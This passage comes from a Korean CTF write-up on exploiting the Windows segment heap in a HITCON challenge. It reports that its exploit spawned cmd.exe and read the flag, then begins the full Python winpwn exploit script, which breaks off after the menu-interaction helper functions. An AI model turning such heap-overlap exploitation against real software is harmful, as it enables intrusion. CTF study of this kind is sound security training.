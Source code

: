 ![Untitled](segment-heap-part5/Untitled%205.png)

`cmd.exe`가 정상적으로 실행되고 `type flag.txt`로  `hitcon{test}` 플래그를 읽을 수 있습니다! 

segment heap을 이해하고 overlap chunk만 만들 수 있다면 익스 과정은 직관적이고 쉬운 문제였다고 할 수 있겠네요. 



# 전체 스크립트

```python
from winpwn import * 

def alloc(types,size):
	p.recvuntil("Your choice:")
	p.sendline("1")
	p.recvuntil("Type of storage:")
	p.sendline(str(types))
	p.recvuntil("Size:")
	p.sendline(str(size))

def getvalue(storage_idx):
    p.recvuntil("Your choice:")
    p.sendline("3")
    p.recvuntil("Storage index:")
    p.sendline(str(storage_idx))

def destory(storage_idx):
    p.recvuntil("Your choice:")
    p.sendline("4")
    p.recvuntil("Storage index:")
    p.sendline(str(storage_idx))


def setvalue(storage_idx, chunk_type, idx,data):
	p.recvuntil("Your choice:")
	p.sendline("2")
	p.recvuntil("Storage index:")
```